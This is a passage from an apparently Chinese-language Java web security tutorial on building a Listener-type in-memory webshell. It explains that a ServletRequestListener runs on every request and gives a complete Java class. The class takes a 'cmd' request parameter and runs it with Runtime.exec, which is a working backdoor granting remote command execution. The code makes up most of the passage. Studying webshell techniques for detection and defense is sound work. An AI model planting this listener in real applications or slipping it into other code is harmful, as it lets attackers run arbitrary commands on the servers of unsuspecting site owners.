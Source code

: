 示例图如下所示：![image-20210402150543076](images/image-20210402150543076.png)

## Listener型内存马的实现

在前面的 JavaWeb 基础学习时，我们了解了一些`Listener`监听器。在这其中，最适合作为内存马的监听器为`ServletRequestListener`，它用于监听 ServletRequest 对象的创建和销毁过程，因此当我们发起任意请求时，都会触发`ServletRequestListener#requestInitialized()`方法。

编写一个`ServletRequestListener`接口的实现类进行测试：
```java
package com.servlet.study;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
/**
 * Created by dotast on 2022/10/25 10:35
 */
@WebListener
public class ListenerTest implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        HttpServletRequest request = (HttpServletRequest) servletRequestEvent.getServletRequest();
        try{
            String cmd = request.getParameter("cmd");
            if(cmd != null){
                Runtime.getRuntime().exec(cmd);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
}
```
